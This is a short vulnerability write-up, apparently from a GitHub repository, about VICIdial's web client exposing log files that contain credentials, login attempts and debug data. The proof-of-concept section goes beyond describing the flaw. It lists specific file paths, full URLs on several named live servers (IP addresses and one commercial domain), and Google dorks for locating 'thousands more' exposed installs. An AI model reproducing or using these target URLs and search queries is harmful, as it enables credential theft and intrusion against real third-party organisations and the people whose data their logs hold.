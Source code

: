 # VICIdial - CVE
## Info/Impact
VICIdial's Web Client contains many sensitive files that can be access from the client side. These files contain mysqli logs, auth logs, debug information, successful and unsuccessful login attempts with their corresponding IP's, User-Agents, credentials and much more. This information can be leveraged by an attacker to gain further access to VICIdial systems.

## PoC (Proof of Concept)

Potential Sensative files/endpoints:

/vicidial/project_auth_entries.txt

/vicidial/agent_reports/AGENT_DAY_<YEAR>-<MONTH>-<DAY>.TXT

/vicidial/agent_reports/

/vicidial/closer_SQL_updates.txt

/agc/vicidial_mysqli_errors.txt

/agc/vicidial_debug.txt

/agc/vicidial_auth_entries.txt

## Example URL's:

http://172.104.24.101/vicidial/project_auth_entries.txt

http://172.104.24.101/vicidial/agent_reports/

http://172.104.24.101/agc/vicidial_mysqli_errors.txt

http://172.104.24.101/agc/vicidial_debug.txt

http://172.104.24.101/agc/vicidial_auth_entries.txt


------------------------------------------------------


http://35.156.102.118/vicidial/project_auth_entries.txt

http://35.156.102.118/vicidial/agent_reports/

http://35.156.102.118/vicidial/closer_SQL_updates.txt

http://35.156.102.118/agc/vicidial_mysqli_errors.txt

http://35.156.102.118/agc/vicidial_debug.txt

http://35.156.102.118/agc/vicidial_auth_entries.txt


------------------------------------------------------


https://callsrevenue.com/vicidial/project_auth_entries.txt

https://callsrevenue.com/agc/vicidial_mysqli_errors.txt

https://callsrevenue.com/agc/vicidial_debug.txt

https://callsrevenue.com/agc/vicidial_auth_entries.txt


------------------------------------------------------


http://69.60.110.115/vicidial/agent_reports/

http://69.60.110.115/vicidial/closer_SQL_updates.txt

http://69.60.110.115/agc/vicidial_mysqli_errors.txt

http://69.60.110.115/agc/vicidial_debug.txt

+ Thousands More! :)

## Google Dorks to help find more!

"Agent web client:  Phone Login"

"Index of /vicidial"

inurl:/vicidial/welcome.php

intitle:Agent Timeclock

"Agent web client: Campaign Login"


